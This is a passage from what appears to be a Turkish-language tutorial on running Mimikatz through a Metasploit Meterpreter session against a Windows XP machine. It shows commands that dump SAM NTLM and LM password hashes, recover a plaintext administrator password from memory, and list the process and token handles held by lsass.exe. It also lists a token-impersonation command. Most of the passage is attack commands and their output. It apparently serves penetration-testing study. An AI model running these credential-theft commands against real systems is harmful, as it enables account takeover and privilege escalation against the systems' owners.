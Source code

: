 
```bash
meterpreter **&gt;** mimikatz_command -f samdump::hashes
Ordinateur : winxp-e95ce571a1
BootKey    : 553d8c1349162121e2a5d3d0f571db7f

Rid  : 500
User : Administrator
LM   : 
NTLM : d6eec67681a3be111b5605849505628f

Rid  : 501
User : Guest
LM   : 
NTLM : 

Rid  : 1000
User : HelpAssistant
LM   : 6165cd1a0ebc61e470475c82cd451e14
NTLM : 

Rid  : 1002
User : SUPPORT_388945a0
LM   : 
NTLM : 771ee1fce7225b28f8aec4a88aea9b6a

meterpreter **&gt;** mimikatz_command -f sekurlsa::searchPasswords
**[**0] **{** Administrator ; WINXP-E95CE571A1 ; SuperSecretPassword **}**
```



## Diğer Modüller



Yukarıda örnek olarak gösterilen modüllerin haricinde başka modüllerde bulunur. Bunların tamamını <a href="http://blog.gentilkiwi.com/">Mimikatz</a> web sayfasından inceleyebilirsiniz.



## Kullanıcı Token Bilgileri


```bash
meterpreter **&gt;** mimikatz_command -f handle::
Module : 'handle' identifié, mais commande '' introuvable

Description du module : Manipulation des handles
list              - Affiche les handles du système **(**pour le moment juste les processus et tokens**)**
processStop       - Essaye de stopper un ou plusieurs processus en utilisant d'autres handles
tokenImpersonate  - Essaye d'impersonaliser un token en utilisant d'autres handles
nullAcl           - Positionne une ACL null sur des Handles


meterpreter &gt; mimikatz_command -f handle::list
...snip...
  760  lsass.exe                 -&gt;  1004       Token           NT AUTHORITY\NETWORK SERVICE
  760  lsass.exe                 -&gt;  1008       Process 704     winlogon.exe
  760  lsass.exe                 -&gt;  1052       Process 980     svchost.exe
  760  lsass.exe                 -&gt;  1072       Process 2664    fubar.exe
  760  lsass.exe                 -&gt;  1084       Token           NT AUTHORITY\LOCAL SERVICE
  760  lsass.exe                 -&gt;  1096       Process 704     winlogon.exe
  760  lsass.exe                 -&gt;  1264       Process 1124    svchost.exe
  760  lsass.exe                 -&gt;  1272       Token           NT AUTHORITY\ANONYMOUS LOGON
  760  lsass.exe                 -&gt;  1276       Process 1804    psia.exe
```